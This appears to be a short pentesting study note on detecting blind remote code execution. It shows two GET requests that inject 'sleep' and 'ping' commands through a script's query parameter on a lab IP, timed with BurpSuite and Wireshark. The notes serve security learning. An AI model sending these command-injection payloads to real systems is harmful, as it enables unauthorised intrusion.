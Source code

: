 ```yaml
---
title: RCE attack - Remote Code Execution
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting, web pentesting
---
```


# RCE attack - Remote Code Execution

Exploiting Blind Remote Execution Vulnerability attack in a GET request in BurpSuite (to run the queries) and Wireshark (to capture the traffic).

```
________
GET /script.php?c=sleep+5&ok=ok HTTP/1.1
Host 192.168.137.130
User Agent....
...
________
```


Also other command:

```
GET /script.php?c=ping+192.168.139.130+-c+5&ok=ok HTTP/1.1
```


